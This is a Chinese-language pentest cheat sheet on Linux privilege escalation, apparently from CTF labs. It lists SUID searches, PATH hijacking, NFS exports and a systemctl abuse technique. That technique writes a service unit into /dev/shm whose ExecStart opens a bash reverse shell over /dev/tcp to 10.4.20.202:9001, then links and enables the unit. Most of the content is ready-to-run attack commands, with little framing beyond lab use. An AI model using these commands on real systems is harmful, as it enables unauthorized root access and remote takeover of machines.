## 提权

* Sudo
[[htb#Stocker]]

* SUID

* ```shell
  find / -type f -perm -04000 -ls 2>/dev/null
  ```python

  * systemctl

    ```shell
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.4.20.202/9001 0>&1 2<&1"
    [Install]
    WantedBy=multi-user.target' > /dev/shm/mm.service
    
    #生成一个unit名为mm.service,放在/dev/shm 下
    ```

    ```bash
    systemctl link /dev/shm/mm.service
    systemctl enable --now /dev/shm/mm.service
    ```

    > 通常unit存放在`/usr/lib/systemd/system/` 和 `/etc/systemd/system/，可以被systemctl加载执行，但是渗透过程中需要提权的场景往往权限较小，这些目录不可写。而systemctl的特性决定了，当unit在/tmp目录下时，无法被systemctl加载。这里需要掌握一个神奇的目录：/dev/shm/,关于这个目录的解读可以移步：https://www.cnblogs.com/tinywan/p/10550356.html学习掌握。这里就可以把我们生`成的unit文件放置再这个目录

    

​		

* 环境变量

  ```shell
  #查找可写文件夹
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  ```

  ```shell
  export PATH=/tmp:$PATH
  ```

  ```shell
  #新建一个shell
  echo "/bin/bash" >thm
  chmod 777 thm
  ./path
  ```

* NFS(网络文件共享)

  查看 /etc/exports

